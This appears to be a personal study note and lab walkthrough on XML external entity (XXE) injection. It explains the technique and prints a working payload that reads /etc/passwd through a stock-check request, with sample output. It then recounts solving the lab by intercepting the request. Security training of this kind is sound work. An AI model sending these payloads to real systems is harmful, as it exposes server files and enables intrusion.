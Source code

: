 ```yaml
---
tags: ["XXE"]
image: https://cdn.acunetix.com/wp-content/uploads/2017/07/11110651/XXE_600x315.png
sidebar_position: 2
---
```


## Exploiting XXE to retrieve Files

To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

For example, suppose a shopping application checks for the stock level of a product by submitting the following XML to the server:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

The application performs no particular defenses against XXE attacks, so you can exploit the XXE vulnerability to retrieve the `/etc/passwd` file by submitting the following XXE payload:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <stockCheck><productId>&xxe;</productId></stockCheck>
```

This XXE payload defines an external entity `&xxe;` whose value is the contents of the `/etc/passwd` file and uses the entity within the `productId` value. This causes the application's response to include the contents of the file:

```
Invalid product ID: root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin ...
```

## Challenge

> This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
> To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file.

--> i intercepted the check stock request and added this before `<stockcheck>` tag:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```

--> Also i added `&xxe;` before both tags before i don't know which one is vulnerable :

![](Attachments/Pastedimage20220228132936.png)

--> And i got the content of `/etc/passwd`

![](Attachments/Pastedimage20220228132558.png)
